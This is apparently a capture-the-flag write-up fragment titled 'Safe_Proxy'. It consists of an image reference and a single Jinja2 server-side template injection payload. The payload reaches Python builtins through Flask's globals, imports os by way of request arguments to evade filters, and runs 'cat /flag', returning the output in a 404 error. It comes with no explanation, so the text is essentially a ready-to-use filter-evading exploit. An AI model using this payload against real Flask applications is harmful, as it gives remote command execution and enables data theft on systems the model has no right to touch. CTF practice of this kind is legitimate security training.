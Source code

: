 # Safe_Proxy
![](<./img/Pasted image 20241215121415.png>)

```python
{{g.pop|attr(request.args.globals)|attr(request.args.getitem)(request.args.builtins)|attr(request.args.getitem)(request.args.imp)('flask')|attr('abort')(404,g.pop|attr(request.args.globals)|attr(request.args.getitem)(request.args.builtins)|attr(request.args.getitem)(request.args.imp)(request.args.o)|attr(request.args.p)('cat /flag')|attr('read')())}}
```